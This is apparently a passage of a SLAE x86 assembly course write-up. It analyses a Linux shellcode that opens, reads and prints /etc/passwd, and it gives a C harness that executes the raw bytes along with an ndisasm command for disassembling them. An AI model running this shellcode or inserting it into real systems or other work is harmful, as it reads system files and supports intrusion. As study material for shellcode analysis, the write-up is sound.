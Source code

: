 Make sure the shellcode works. Insert the shellcode in the template file.
```
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00";

main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```
Compile and execute (the shellcode length are not correct as there are null bytes in the shellcode).
![asn-5-readfile-execution](/assets/SLAE-x86/asn-5/asn-5-readfile-execution.PNG)

Dump the assembly instructions from shellcode using **NDISASM**.

```
echo -ne "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```

![asn-5-readfile-ndisasm-dump](/assets/SLAE-x86/asn-5/asn-5-readfile-ndisasm-dump.PNG)
